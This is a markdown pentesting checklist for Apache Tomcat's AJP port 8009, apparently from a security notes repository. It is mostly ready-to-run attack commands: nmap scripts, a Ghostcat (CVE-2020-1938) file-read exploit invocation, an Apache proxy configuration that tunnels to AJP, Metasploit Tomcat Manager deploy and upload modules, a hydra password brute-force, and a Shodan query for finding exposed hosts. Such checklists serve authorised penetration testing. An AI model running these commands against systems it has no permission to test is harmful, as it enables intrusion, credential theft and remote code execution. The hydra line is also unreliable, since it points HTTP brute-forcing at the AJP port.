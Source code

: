 # AJP (Port 8009) Pentesting Checklist & Commands

## 🎯 What am I realistically expecting to find here?

⭐ After enumerating AJP (port 8009), I realistically expect to find:

- [ ] Exposed Tomcat AJP service accepting backend requests
- [ ] Potential CVE-2020-1938 (Ghostcat) LFI vulnerability
- [ ] Ability to read sensitive files (e.g., WEB-INF/web.xml)
- [ ] Possibility to proxy to Tomcat Manager interface
- [ ] IDS/IPS evasion via binary protocol tunneling
- [ ] No direct RCE without chaining further attacks

---

## ✅ AJP Pentest Checklist

- [ ] **Service Detection**
  - Confirm service and banner.
    ```
    nmap -sV -p8009 <IP>
    ```

- [ ] **Nmap Enumeration Scripts**
  - Run NSE scripts for deeper analysis.
    ```
    nmap --script ajp-auth,ajp-headers,ajp-methods,ajp-request -p8009 <IP>
    ```

- [ ] **Check for Ghostcat (CVE-2020-1938)**
  - Validate LFI by attempting to fetch internal files.
    - Common targets:
      ```
      WEB-INF/web.xml
      META-INF/context.xml
      ```
  - Exploit example:
    ```
    python exploit-ghostcat.py -t <IP> -p 8009 -f WEB-INF/web.xml
    ```

- [ ] **Set Up Apache Reverse Proxy**
  - Redirect local HTTP requests to AJP.
    ```
    sudo apt-get install libapache2-mod-jk
    sudo vim /etc/apache2/ajp.conf
    ```
    Example ajp.conf:
    ```
    ProxyRequests Off
    <Proxy *>
        Order deny,allow
        Deny from all
        Allow from localhost
    </Proxy>
    ProxyPass / ajp://<TARGET_IP>:8009/
    ProxyPassReverse / ajp://<TARGET_IP>:8009/
    ```
  - Enable modules and restart Apache.
    ```
    sudo a2enmod proxy_http
    sudo a2enmod proxy_ajp
    sudo systemctl restart apache2
    ```

- [ ] **Exploitation via Proxy**
  - Use local Apache to attack Tomcat Manager.
    ```
    msf> use exploit/multi/http/tomcat_mgr_deploy
    set RHOSTS 127.0.0.1
    set RPORT 80
    run
    ```

- [ ] **Brute Forcing Tomcat Credentials**
  - Attempt to discover weak passwords.
    ```
    hydra -l tomcat -P passwords.txt http-get://<IP>:8009/
    ```

---

## ✅ Metasploit Modules

- **Scanner**
    ```
    use auxiliary/scanner/http/tomcat_mgr_login
    ```
- **Exploitation**
    ```
    use exploit/multi/http/tomcat_mgr_upload
    use exploit/multi/http/tomcat_mgr_deploy
    ```

---

## ✅ Shodan Search

- Quickly find exposed AJP services on the internet.
    ```
    port:8009
    ```

